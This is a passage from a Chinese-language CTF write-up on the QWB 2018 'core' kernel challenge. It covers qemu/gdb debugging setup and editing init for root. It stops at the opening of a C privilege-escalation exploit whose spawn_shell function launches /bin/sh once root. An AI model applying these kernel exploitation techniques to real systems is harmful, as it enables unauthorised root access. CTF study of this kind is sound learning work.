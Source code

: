 - Why bother returning to Userspace?
  - Most useful things we want to do are much easier from userland.
  - In KernelSpace, there’s no easy way to:
    - Modify the filesystem
    - Create a new process
    - Create network connections

### EXP-ROP

先说一下怎么调试，qemu 内置有 gdb 的接口，通过 help 查看

```bash
loeng@loeng-pwn:~/kernel/qwb2018_core/give_to_player$ qemu-system-x86_64 --help | grep gdb
-gdb dev        wait for gdb connection on 'dev'
-s              shorthand for -gdb tcp::1234
```

即可以通过 `-gdb tcp:port` 或者 `-s` 来开启调试端口，`start.sh` 中已经有了 `-s`，不必再自己设置。

另外通过 `gdb ./vmlinux` 启动时，虽然加载了 kernel 的符号表，但没有加载驱动 `core.ko` 的符号表，可以通过 `add-symbol-file core.ko textaddr` 加载，textaddr是core.ko加载地址，用cat /sys/module/core/sections/.text获取，查看需要 root 权限，因此为了方便调试，我们再改一下 `init`，

```shell
# setsid /bin/cttyhack setuidgid 1000 /bin/sh
setsid /bin/cttyhack setuidgid 0 /bin/sh
```

然后重新打包，这样启动就是root了

![image-20211111202446217](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/image-20211111202446217.png)

```bash
# qemu内
$ cat /sys/module/core/sections/.text 
0xffffffffc0187000

# qemu外
$ gdb ./vmlinux -q
pwndbg> add-sysbol-file ./core.ko 0xffffffffc0187000
pwndbg> b core_read
pwndbg> target remote localhost:1234
pwndbg> c

# qemu内
$ /tmp/exploit

# qemu外
pwndbg> c
	Breakpoint core_read
```

exp

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void spawn_shell()
{
	if(!getuid())
	{
		system("/bin/sh");
```